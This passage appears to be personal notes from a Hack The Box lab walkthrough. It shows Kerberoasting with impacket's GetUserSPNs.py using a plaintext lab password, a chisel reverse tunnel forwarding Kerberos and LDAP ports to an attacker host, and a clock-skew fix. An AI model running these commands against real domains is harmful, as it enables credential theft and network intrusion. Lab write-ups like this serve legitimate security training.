 change the hosts,  127.0.0.1 htb.local;

Run again, got hash.

```bash
 GetUserSPNs.py htb.local/amanda:Ashare1972 -dc-ip $tip -request
```

![image-20221217204750237](./images/image-20221217204750237.png)



### chisel port fwd

did not try this

```bash
# on kali
chisel server -p 8008 --reverse

# on target 
.\c.exe client 10.10.14.90:8008 R:88:127.0.0.1:88 R:389:localhost:389

# kerberoast with impacket
GetUserSPNs.py -request -dc-ip 127.0.0.1 htb.local/amanda -save -outputfile GetUserSPNs.out 
```



date error. `Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)`

change date on kali.

```bash
# check date on dc.
date

# change time on kali.
date +%T -s "xx:xx:xx"
```
